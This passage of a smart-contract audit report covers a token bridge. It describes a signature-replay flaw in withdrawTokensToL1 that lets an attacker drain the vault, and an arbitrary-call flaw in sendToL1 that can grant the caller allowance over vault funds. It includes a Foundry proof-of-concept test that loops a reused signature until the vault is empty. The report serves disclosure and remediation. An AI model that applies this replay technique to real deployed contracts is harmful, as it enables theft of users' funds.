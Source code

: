 ```solidity
}
```

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

### [H-3] Lack of replay protection in `withdrawTokensToL1` allows withdrawals by signature to be replayed

Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```solidity
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.


[HIGH]: https://img.shields.io/badge/-Critical-d10b0b "Critical"
[MEDIUM]: https://img.shields.io/badge/-Medium-orange "Medium"
[LOW]: https://img.shields.io/badge/-Minor-yellow "Minor"
[INFORMATIONAL]: https://img.shields.io/badge/-Informational-blue "Informational"
[GAS]: https://img.shields.io/badge/-Gas-9cf "Gas"